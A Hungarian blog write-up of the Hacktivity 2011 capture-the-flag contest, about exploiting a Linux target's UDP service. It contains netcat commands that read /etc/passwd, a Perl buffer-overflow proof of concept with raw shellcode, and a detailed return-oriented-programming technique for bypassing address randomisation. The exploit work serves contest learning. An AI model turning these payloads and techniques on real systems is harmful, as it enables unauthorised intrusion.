




Hacktivity 2011 CtF leírás - 1. rész (Jose Luis Torrente)
=========================================================

Eredeti publikálás dátuma: 2011-09-20 18:16:24

Most hétvégén került megrendezésre a Hacktivity konferencia, és ezzel együtt jelen írás témája, a Capture the Flag verseny is. A célpont három gép volt: egy Linux-os, egy OpenBSD-s, illetve egy Windows 7-es. Csapatunknak sikerült felhasználói hozzáférést szerezni mindhárom gépen, azonban a root jogot csak az OpenBSD-s gépen szereztük meg - így a másik kettő rootolásáról nem lesz szó.

A három célpont három post-ban fog szerepelni; most a Linux-os géppel való szívásainkat mutatom meg. A selejtezővel ellentétben itt nem konkrét IP-címeket kaptunk, hanem egy tartományt, amiben meg kellett keresnünk a célpontokat. Az ezen post témáját adó Linux-os gép volt talán az utolsó, amit megtaláltunk, ugyanis az egyetlen nyitott portja a 2011-es UDP volt - az UDP scan meg marha lassú.

Az említett porton egy szolgáltatás figyelt, aminek tetszőleges stringet küldve kaptunk egy kis segítséget:

```
[0x00 ~]$ nc -u localhost 2011
adfadsf
ctfserver version 1.0 - Hacktivity 2011
GETFILE <filename>
LISTDIR <dir>
ACCESSV <id>
PROMPTW <file>
PUTFILEX <target>
```

Cool, tudjuk a kiadható parancsokat. Hamar kiderült, hogy ezek közül három nem működik:

```
ACCESSV 0
Command not implemented!
PROMPTW asd
Command not implemented!
PUTFILEX asd
Seriously? Try harder! Command not implemented!
```

Elsőre úgy tűnt, hogy a GETFILE sem megy, azonban kiderült, hogy csak a netcat által elküldött EOF a zavaró tényező. A következő módon küldve a parancsot már működött a móka:

```
[0x00 ~]$ echo -n "GETFILE /etc/passwd" | nc -u localhost 2011
```

Tehát ekkor már tudtunk direktorit listázni, illetve fájlokat letölteni, így a felhasználói szintű proof.txt megszerzése innen már egyszerű volt.

A szerver rootra töréséhez kellett volna szereznünk egy távoli hozzáférést a géphez. Kézenfekvő volt, hogy letöltjük a szervert, és megpróbálunk benne kihasználható hibát keresni.

Ez meg is történt, elkezdtük SPIKE-kal fuzzolni a programot. Nagy örömünkre sikerült kicsikarni belőle SEGFAULT-ot. Sajnos hamar kiderül, hogy ha a LISTDIR-rel nem létező direktorit szeretnénk listázni, akkor elszáll a progi, viszont ez a hiba nem volt kihasználható.

Belenézve a binárisba találtunk egy gyanús stringet:

```
[0x00 CTF]$ strings ctfserver
...
PUTFILEX  
PUTFILEX command received!
Seriously? Try harder! Command not implemented!
STRCPYT command received!
Child process created!
...
```

STRCPYT: erről nem szól a help, valószínűleg itt lesz valami turpisság. A fájlt megvizsgálva readelf-fel találtunk egy gyanús nevű függvényt:

```
[0x00 CTF]$ readelf -s ctfserver
...
79: 00000000     0 FUNC    GLOBAL DEFAULT  UND fwrite@@GLIBC_2.0
80: 00000000     0 FUNC    GLOBAL DEFAULT  UND fprintf@@GLIBC_2.0
81: 0804a7b8     0 NOTYPE  GLOBAL DEFAULT  ABS __bss_start
82: 08048974    31 FUNC    GLOBAL DEFAULT   14 h4cking
83: 0804a7c4     0 NOTYPE  GLOBAL DEFAULT  ABS _end
84: 00000000     0 FUNC    GLOBAL DEFAULT  UND puts@@GLIBC_2.0
...
```

A szerver disassemblyjét átnézve kiderül, hogy ha a program az STRCPYT parancsot kapja, akkor a neki megadott paraméterrel meghívja a h4cking függvényt. Az pedig csinál egy strcpy-t, természetesen méretellenőrzés nélkül. Ez innen direkt EIP felülírás, amit tök egyszerű exploitálni. Elvileg. Ez a kis mocsok még úgy is szivatós, ha eltekintünk a ténytől, hogy GDB-vel voltunk kénytelenek mókolni vele :)

A gondok ott kezdődtek, hogy a binárisban nem volt sem JMP ESP, sem olyan utasítás, ROP gadget, ami valami hasonlót csinál. Legalábbis se kézzel, se msfelfscan-nel nem találtunk. A saját kis virtuális Debian-omon persze jól működött az exploit akkor is, ha az EIP-et a stack címével írtam felül. Kicsi volt az esély, hogy ez így menni fog a célpont gépen, azért kipróbáltuk, sajnos nem ment. Azért megmutatom a PoCkot:

```
#!/usr/bin/perl

my $padding = "STRCPYT " . "A"x44;
my $eip = "\\x81\\xa5\\xf1\\xb7";
my $nopsled = "\\x90"x10;

my $buf = "" .
"\\xda\\xc5\\xd9\\x74\\x24\\xf4\\xba\\x87\\x2c\\x6d\\xee\\x5e\\x31\\xc9" .
"\\xb1\\x12\\x83\\xee\\xfc\\x31\\x56\\x16\\x03\\x56\\x16\\xe2\\x72\\x1d" .
"\\xb6\\x19\\x9f\\x0d\\x0b\\xb5\\x35\\xb0\\x02\\xd8\\x79\\xd2\\xd9\\x9b" .
"\\x22\\x45\\x8a\\x5b\\x7c\\x78\\x75\\x3a\\x14\\x6a\\xd5\\xa4\\xb7\\xe6" .
"\\xf5\\x79\\x67\\x7e\\x14\\x3a\\xed\\xe6\\x8f\\x70\\x71\\xbf\\xa8\\x52" .
"\\xc1\\x7f\\x7a\\xe4\\x68\\xf9\\x7d\\xb5\\x02\\xd6\\x52\\x45\\xba\\x40" .
"\\x82\\xcb\\x53\\xff\\x55\\xe8\\xf3\\xac\\xec\\x0e\\x43\\x59\\x22\\x50";

print $padding . $eip . $nopsled . $buf;
```

Később ráeszméltünk, hogy a szerver nem statikusan van linkelve, így próbáltunk az általa használt libekben megfelelő utasítást találni. Egy szem CALL ESP-t találtunk a libc-ben. Átírtuk az exploitot, debuggerben szépen ment, anélkül nem. Sajnos ekkor már nagyon a verseny vége felé jártunk, nem is sikerült megoldást találnunk.

Persze nem hagyott nyugodni a dolog, otthon folytattam az exploit-írást. Ekkor derült ki, hogy egy stock Debian Squeeze telepítésen a libc címe randomizálva van, szóval onnan hiába próbálot CALL ESP-t hívogatni.



SIDENOTE: Marha sokat szívtam azzal, hogy űgy tűnt, a GDB-m find parancsa nem igazán működik jól. Van bizonyítékom is, nem csak fáradt voltam:



Végül aztán a következő megoldással keresgéltem a programban:



Megoldásnak maradt az, hogy return-oriented programming használatával valahogy lefuttassam a shellcode-ot. Ez sem bizonyult egyszerűnek, lévén alig van pár használható gadget a binárisban. Nem részlezem, milyen utakat jártam be, milyen megoldásokat próbáltam ki, nagyon hosszú és unalmas lenne :)

Helyette itt a módszer, ami végülis működött: Maga a bináris mindig ugyanott van a memóriában, szóval onnan lehet válogatni címeket. A ROP gadget-ek kereséséhez a ropeme nevű programot használtam, illetve a megoldásom alapötlete is a ropeme alkotóitól ered.

Kerestem egy címet, ahol 0xff, illetve egyet, ahol 0xe4 található (ezek ketten együtt egy JMP ESP-t alkotnak) úgy, hogy belátható távolságon belül van utánuk 0x00\. Tudtam, hogy a progi hívogat strcpy függvényt, megnéztem annak a címét a PLT (Procedure Linkage Table)-ben.



Ezeken kívül még szükség volt egy POP # POP # RET gadgetre, plusz egy írható memóriacímre. Szerencsére ilyeneket is találtam.

Ezekből a komponensekből össze lehet rakni egy olyan ROP láncot, ami a kiválasztott memóriacímre strcpy-zza a 0xff-et, majd rögtön utána a 0xe4-et, ezzel létrehozva egy JMP ESP-t. Utána már "csak" annyi dolgunk marad, hogy erre a címre ugorjunk.

A strcpy-s ROP lánc lefutása után az EAX pont az utolsó másolt bájtra mutat, ennél egyel kisebb kellene, hogy legyen. Ez sem volt egyszerű feladat, a bináris krónikus gadget-hiánya miatt. Aztán végülis sikerült találni egy ADD AL, 0x5b # pop EBP # RET sorozatot, amit 45-ször alkalmazva sikerült egyel csökkenteni az EAX értékét. Innen már csak egy CALL EAX utasításnyira voltam a sikertől - szerencsére ilyet találtam.

Tehát összefoglalva: strcpy utasításokkal egy írható területre írok egy JMP ESP-t, majd odaugrok, az pedig lefutva a shellcode-omra ugrik. Így leírva tök egyszerű az egész, megcsinálni nem volt ennyire triviális :D

A kész exploit egy Metasploit modul formájában megtalálható ezen a linken:

 - [ctfserver.rb](files/linux/ctfserver.rb)

Felmerülhet a kérdés, hogy ha már odaírtam a memóba egy JMP ESP-t, miért nem írtam oda az egész shellcode-ot. A válasz rém egyszerű: nem volt rá hely. A buffer maximális mérete 1023 byte, és egy byte strcpy-zásához szükséges 16 byte, plusz ugye még kell hely a többi gadget-nek is.

Mivel nem minden esetben ilyen szűkös a hely, jó ötletnek tartottam egy kis tool megírását, ami tetszőleges shellcode-ra megcsinálja ezt a strcpy-s ROP láncot. Az msfelfscan progit használtam alapként, illetve a Rex::ElfScan::Scanner-t egészítettem ki egy új osztállyal. innen letölthetők a források:

 - strcpychain](files/linux/strcpychain) - msf3 direktoriba
 - [scanner.rb](files/linux/scanner.rb) - msf3/lib/rex/elfscan direktoriba

A proginak meg kell adni a shellcode-ot, egy POP # POP # RET címet, a strcpy PLT-beli címét, illetve az írható memória címét. Ruby, illetve Python szintakszisban, illetve sima stringként képes legyártani a láncot.

Persze ha ez meglett volna a versenyen, még mindig csak user szintű shellünk lett volna, a rootra törésért valószínűleg meg kellett volna szenvednünk :D Terveim szerint a következő részben az OpenBSD-s célpontot mutatom be. Ez talán még a héten meg fog történni :)
